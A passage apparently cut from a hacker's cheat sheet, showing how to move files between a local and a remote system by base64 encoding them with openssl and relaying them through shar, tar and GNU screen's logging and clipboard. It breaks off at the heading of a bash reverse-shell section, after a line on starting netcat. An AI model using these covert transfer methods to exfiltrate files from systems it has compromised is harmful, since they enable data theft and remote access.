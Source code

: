 Transfer stuff.shar to the remote system and execute it:

$ chmod 700 stuff.shar
$ ./stuff.shar

Method 2: Using tar

$ tar cfz - *.png *.c | openssl base64 >stuff.tgz.b64

Transfer stuff.tgz.b64 to the remote system and execute:

$ openssl base64 -d <stuff.tgz.b64 | tar xfz -

4.v. File transfer - using screen from REMOTE to LOCAL

Transfer a file FROM the remote system to your local system:

Have a screen running on your local computer and log into the remote system from within your shell. Instruct your local screen to log all output:

    CTRL-a : logfile screen-xfer.txt

    CTRL-a H

We use openssl to encode our data but any of the above encoding methods works. This command will display the base64 encoded data in the terminal and screen will write this data to screen-xfer.txt:

$ openssl base64 </etc/issue.net

Stop your local screen from logging any further data:

    CTRL-a H

On your local computer and from a different shell decode the file:

$ openssl base64 -d <screen-xfer.txt
$ rm -rf screen-xfer.txt

4.vi. File transfer - using screen from LOCAL to REMOTE

On your local system (from within a different shell) encode the data:

$ openssl base64 </etc/issue.net >screen-xfer.txt

On the remote system (and from within the current screen):

$ openssl base64 -d

Get screen to slurp the base64 encoded data into screen's clipboard and paste the data from the clipboard to the remote system:

    CTRL-a : readbuf screen-xfer.txt

    CTRL-a : paste .

    CTRL-d

    CTRL-d

Note: Two C-d are required due to a bug in openssl.

5.i.a. Reverse shell with Bash

Start netcat to listen on port 1524 on your system:

